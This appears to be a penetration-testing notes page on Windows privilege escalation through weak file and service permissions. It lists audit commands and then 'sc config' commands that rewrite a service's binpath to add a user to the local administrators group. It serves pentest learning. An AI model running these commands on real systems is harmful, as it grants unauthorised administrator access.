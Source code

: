 # File System ACLs

## **Weak Permissions - File System ACLs**

We can use `SharpUp` to check for service binaries suffering from weak ACLs.

To verify the ACLs for a specific file: `icacls C:\path\to\file`

> Ideally, you need `(I)(F)`, which means full permissions, e.g. `BUILTIN\Users` or `Everyone:(I)(F)`

To check a service's permissions: `accesschk.exe /accepteula -quvcw ServiceName`

If you have full permissions on a service, then you can add the current user to the administrators localgroup. To do so: \[Requires `CMD`]

1. `sc config ServiceName binpath="cmd /c net localgroup administrators user-name /add"`
2. `sc stop ServiceName`
3. `sc start ServiceName`
4. **Disclaimer:** when starting the service you will get an error due to the previous `sc config` command
